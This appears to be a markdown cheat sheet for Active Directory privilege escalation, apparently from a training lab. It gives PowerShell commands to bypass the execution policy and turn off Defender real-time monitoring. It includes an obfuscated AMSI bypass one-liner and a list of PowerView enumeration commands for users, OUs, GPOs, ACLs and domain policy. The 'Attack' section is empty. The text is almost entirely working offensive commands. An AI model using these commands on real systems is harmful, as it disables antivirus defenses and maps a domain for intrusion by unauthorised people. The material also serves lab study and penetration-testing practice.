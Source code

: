 ## Privilege Escalation

## Active Directory

### Setup

Bypass Execution Policy
```powershell
powershell -ep bypass
```

Turn off AMSI 
```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
```

AMSI bypass
```powershell
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
```


### Enumeration

#### PowerView

Get all the users
```powershell
Get-NetUser
Get-NetUser | select -ExpandProperty samaccountname
Get-NetUser -Credential $Cred | Format-Table name, samaccountname, userprincipalname, description
Get-NetUser -Username student1
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "built"
```

Get OU
```powershell
Get-NetOU
Get-NetOU StudentMachines | %{Get-NetComputer -ADSPath $_}
```

Get GPO
```powershell
Get-NetGPO
(Get-NetOU StudentMachines -FullData).gplink
Get-NetGPO -ADSpath 'LDAP://cn={3E04167E-C2B6-4A9A-8FB7-C811158DC97C},cn=policies,cn=system,DC=dollarcorp,DC=moneycorp,DC=local'
Get-NetGPO -GPOName "{3E04167E-C2B6-4A9A-8FB7-C811158DC97C}"
Get-GPO -Guid [objectguid]
Find-GPOComputerAdmin - Computername dcorp-student1.dollarcorp.moneycorp.local
Find-GPOLocation -UserName student1 -Verbose
```

Get ACLs
```powershell
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs -Verbose
Get-ObjectAcl -SamAccountName "users" -ResolveGUIDs | Format-Table IdentityReference,ActiveDirectoryRights,AccessControlType
Get-ObjectAcl -SamAccountName "Domain Admins" -ResolveGUIDs
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "student"}
Invoke-ACLScanner -ResolveGUIDs | ?{$_.IdentityReference -match "RDPUsers"}
```

Get Domain Data
```powershell
Get-NetDomain
Get-NetDomain -Domain moneycorp.local
Get-DomainSID
Get-DomainPolicy
(Get-DomainPolicy)."system access"
(Get-DomainPolicy -domain moneycorp.local)."system access"
Get-NetDomainController -Domain moneycorp.local
```

### Attack
